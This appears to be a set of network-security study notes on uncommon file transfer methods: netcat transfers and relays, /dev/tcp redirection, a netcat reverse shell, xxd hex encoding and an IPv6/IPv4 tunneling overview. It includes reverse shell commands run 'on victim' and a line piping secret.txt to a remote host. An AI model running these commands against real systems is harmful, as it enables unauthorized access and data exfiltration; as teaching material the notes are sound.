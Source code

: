 
Conduct Uncommon Methods of File Transfer
> Netcat (Reads a writes data across network socket connections using TCP/IP protocol)
  [CLIENT TO LISTENER FILE TRANSFER]
  /> nc -lvp 9001 > newfile.txt
    > # Listener (receive file)
  /> nc 172.16.82.106 9001 < file.txt
    > # Client (sends file)

  [LISTENER TO CLIENT FILE TRANSFER]
  /> nc -lvp 9001 < file.txt
    > # Listener (sends file)
  /> nc 172.16.82.106 9001 > newfile.txt
    > # Cleint (recieve file)

  [NETCAT RELAY LISTENER TO LISTENER]
  /> mknod mypipe p (makes node) or mkfifo mypipe
    > nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe

  [EXAMPLE DIAGRAM]
              nc -lvp 1111 < mypipe | nc -lvp 2222 > mypipe
  
          [1]   ----->            [2]             <-----  [3]
         nc [2] 1111                              nc -lvp 1111
                                                  (nc [2] 2222)

  [NETCAT RELAY CLIENT TO CLIENT]
  /> nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe


  [FILE TRANSFER WITH /DEV/TCP]
  /> nc -lvp 1111 > devtcpfile.txt
    > # On the recieving box
  /> cat secret.txt > /dev/tcp/10.10.0.40/1111
    > # This method is useful for a host that does not have NETCAT available

Reverse shell using NetCat
/> nc -lvp 9999
  > # First listen for the shell on your device
/> nc -c /bin/bash 10.10.0.40 9999
  > # On victim using -c
/> nc -e /bin/bash 10.10.0.40 9999
  > # On victim using -e

XXD
/> echo "Hex encoding test" | xxd -p
/> echo "48657820656e636f64696e6720746573740a" | xxd -r -p




Tunneling Overview
> Dual Stack
  > # Both IPv6 and IP4
> 6in4
  > # IPv6 encapsulated into IPv4
> 6to4
  > # Translates IPv6 to IPv4
> 4in6
  > # IPv4 encapsulated in IPv6
> Teredo
> ISATRAP
